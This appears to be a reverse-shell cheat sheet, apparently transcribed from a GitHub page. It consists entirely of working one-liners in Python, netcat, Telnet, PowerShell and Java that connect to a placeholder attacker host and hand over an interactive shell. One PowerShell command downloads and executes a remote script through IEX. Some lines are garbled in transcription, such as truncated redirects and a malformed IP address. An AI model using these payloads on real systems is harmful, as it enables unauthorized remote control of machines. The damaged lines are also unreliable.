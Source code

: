 >python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.3.3.7",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

#### NC

> nc -e /bin/sh 1.3.3.7 1234

>OpenBSD:
>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

>/bin/sh | nc 1.3.3.7 1234

>rm -f /tmp/p; mknod /tmp/p p && nc 1.3.3.7 1234 0/tmp/p

#### Telnet
>rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p

>telnet 1.3.3.7 80| /bin/bash | telnet 1.3.3.7 1234

#### Powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("1.3.3.7",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('1.3.3.7',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```

```powershell
$sm=(New-Object Net.Sockets.TCPClient('1.3.3.7',1234)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```
#### Java
>r = Runtime.getRuntime()
>p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/.3.3.7/1234;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
>p.waitFor()
